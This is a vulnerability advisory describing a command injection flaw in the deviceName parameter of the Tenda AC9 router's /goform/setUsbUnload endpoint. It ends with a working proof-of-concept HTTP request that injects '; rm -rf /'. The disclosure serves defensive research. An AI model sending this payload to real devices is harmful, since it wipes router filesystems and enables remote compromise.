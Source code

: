 # Tenda AC9 V1.0 V15.03.05.14_multi Command Injection Vulnerability
## Affected Version
Tenda AC9 V1.0 V15.03.05.14_multi
## Vulnerability Description
In Tenda ac9 v1.0 routers with firmware version V15.03.05.14_multi, the deviceName parameter of route /goform/setUsbUnload has a Command Injection Vulnerability, which may lead to remote arbitrary code execution.
## Vulnerability Detail
The v2 returned by the sub_2B9FC function is passed to doSystemCmd as an argument, where v2 is the deviceName obtained from the request. doSystemCmd executes the command "cfm post netctrl 51? op=3,string_info=v2", where v2 is the deviceName obtained from the request, that is, the data provided by the user, and v2 is the deviceName passed in from the outside. If the deviceName is not strictly verified, an attacker can use it to insert malicious commands.
deviceName=";  When rm -rf /", the generated command becomes: "cfm post netctrl 51? op=3,string_info=;  rm -rf /", which causes the rm -rf/command to be executed, causing serious system damage.

![img](./img/setUsbUnload.png)

## Poc
```py
POST /goform/setUsbUnload HTTP/1.1
Host: 192.168.0.1
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Cookie: password=452b97084f53fd461f33687a27a21f4dpxatgb

deviceName="; rm -rf /
```

